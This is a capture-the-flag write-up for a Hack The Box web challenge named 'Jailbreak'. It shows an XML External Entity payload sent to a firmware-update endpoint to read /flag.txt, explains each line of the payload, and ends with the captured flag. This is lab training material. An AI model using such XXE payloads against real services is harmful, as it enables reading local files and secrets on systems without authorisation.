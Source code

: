 # Jailbreak
![image](https://github.com/user-attachments/assets/3a083d34-91a5-4097-8bd1-fa5d097c611d)

## Writeup
![image](https://github.com/user-attachments/assets/1c2e4d89-7c28-4424-8a4b-1081264cb1f8)

"Jailbreak" is a web version of the Pip-Boy from the Fallout games. There are different tabs, but the most interesting one is the `rom` tab: here, we can modify the firmware by updating the `XML` file via `POST` requests.

![image](https://github.com/user-attachments/assets/9cbf5daf-f9e2-4b29-bdaa-2f68284f6439)

By analyzing this `XML` document, we can infer that the application extracts a specific value labeled as `Version` from the `XML` input to construct a response message.

So let’s try using some common **XML External Entity (XXE)** payloads in this firmware update function to retrieve the flag:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///flag.txt" > ]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>1.33.7&xxe;
    </Version>
</FirmwareUpdateConfig>
```

Specifically:
- **`<?xml version="1.0" standalone="yes"?>`**: Standard `XML header`, it says that this XML is `standalone` and it does not depend on an **external** `DTD`
- **`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///flag.txt" > ]>`**: Defines a **custom** `DOCTYPE` with an **external entity** called `xxe` inside; `SYSTEM "file:///flag.txt"` says that `xxe` should be **replaced** by the contents of the file `/flag.txt`
- **`<Version>1.33.7&xxe;</Version>`**: This `<Version>` element contains some **static text** (`1.33.7`) followed by `&xxe;`, which is a reference to the entity defined above

![Image](https://github.com/user-attachments/assets/bc5c6e8b-8a33-4476-baed-475b553b944c)

**HTB{b1om3tric_l0cks_4nd_fl1cker1ng_l1ghts_3996d2d9880148f045c5e4fd745e7927}**
